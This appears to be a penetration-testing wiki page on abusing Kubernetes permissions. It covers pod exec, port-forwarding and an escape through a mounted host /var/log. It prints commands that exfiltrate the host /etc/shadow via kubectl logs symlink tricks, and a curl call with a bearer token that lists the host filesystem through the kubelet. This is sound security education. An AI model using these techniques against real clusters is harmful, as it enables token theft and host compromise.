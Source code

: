 ### **Pods Exec**

**`pods/exec`** is a resource in kubernetes used for **running commands in a shell inside a pod**. This allows to **run commands inside the containers or get a shell inside**.

Therfore, it's possible to **get inside a pod and steal the token of the SA**, or enter a privileged pod, escape to the node, and steal all the tokens of the pods in the node and (ab)use the node:

```bash
kubectl exec -it <POD_NAME> -n <NAMESPACE> -- sh
```

### port-forward

This permission allows to **forward one local port to one port in the specified pod**. This is meant to be able to debug applications running inside a pod easily, but an attacker might abuse it to get access to interesting (like DBs) or vulnerable applications (webs?) inside a pod:

```
kubectl port-forward pod/mypod 5000:5000
```

### Hosts Writable /var/log/ Escape

As [**indicated in this research**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html), if you can access or create a pod with the **hosts `/var/log/` directory mounted** on it, you can **escape from the container**.\
This is basically because the when the **Kube-API tries to get the logs** of a container (using `kubectl logs <pod>`), it **requests the `0.log`** file of the pod using the `/logs/` endpoint of the **Kubelet** service.\
The Kubelet service exposes the `/logs/` endpoint which is just basically **exposing the `/var/log` filesystem of the container**.

Therefore, an attacker with **access to write in the /var/log/ folder** of the container could abuse this behaviours in 2 ways:

- Modifying the `0.log` file of its container (usually located in `/var/logs/pods/namespace_pod_uid/container/0.log`) to be a **symlink pointing to `/etc/shadow`** for example. Then, you will be able to exfiltrate hosts shadow file doing:

```bash
kubectl logs escaper
failed to get parse function: unsupported log format: "root::::::::\n"
kubectl logs escaper --tail=2
failed to get parse function: unsupported log format: "systemd-resolve:*:::::::\n"
# Keep incrementing tail to exfiltrate the whole file
```

- If the attacker controls any principal with the **permissions to read `nodes/log`**, he can just create a **symlink** in `/host-mounted/var/log/sym` to `/` and when **accessing `https://<gateway>:10250/logs/sym/` he will lists the hosts root** filesystem (changing the symlink can provide access to files).

```bash
curl -k -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Im[...]' 'https://172.17.0.1:10250/logs/sym/'
<a href="bin">bin</a>
<a href="data/">data/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="init">init</a>
<a href="lib">lib</a>
[...]
```
